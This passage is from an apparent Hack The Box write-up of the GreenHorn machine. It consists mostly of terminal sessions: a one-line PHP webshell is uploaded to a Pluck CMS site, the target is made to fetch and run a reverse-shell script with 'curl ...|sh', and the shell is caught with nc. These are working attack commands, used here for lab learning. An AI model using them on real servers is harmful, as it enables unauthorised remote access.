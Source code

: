 Upload a simple webshell

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ echo '<?=`$_REQUEST[0]`;' > rce.php

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ python exploit.py -u http://greenhorn.htb -p iloveyou1 -f rce.php
[*] Logging in
[*] Uploading module
[+] Webshell uploaded to http://greenhorn.htb/data/modules/zidtetuw/x.php

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ curl http://greenhorn.htb/data/modules/zidtetuw/x.php --data-urlencode '0=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Host reverse shell script on web server

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ mkdir -p www && cd www && echo "/bin/bash -c 'bash -i >& /dev/tcp/$(pt get lhost)/1111 0>&1'" > index.html && fuser -k 80/tcp 2>/dev/null; python -m http.server 80
  6234Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Invoke reverse shell on target machine

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ curl http://greenhorn.htb/data/modules/zidtetuw/x.php --data-urlencode '0=curl 10.10.14.72|sh'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.25.111] 42304
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/oclvfgln$ /usr/bin/script -qc /bin/bash /dev/null
<s/oclvfgln$ /usr/bin/script -qc /bin/bash /dev/null^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

                               www-data@greenhorn:~/html/pluck/data/modules/oclvfgln$ export TERM=xterm
www-data@greenhorn:~/html/pluck/data/modules/oclvfgln$ stty rows 50 columns 209
www-data@greenhorn:~/html/pluck/data/modules/oclvfgln$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## From www-data to junior
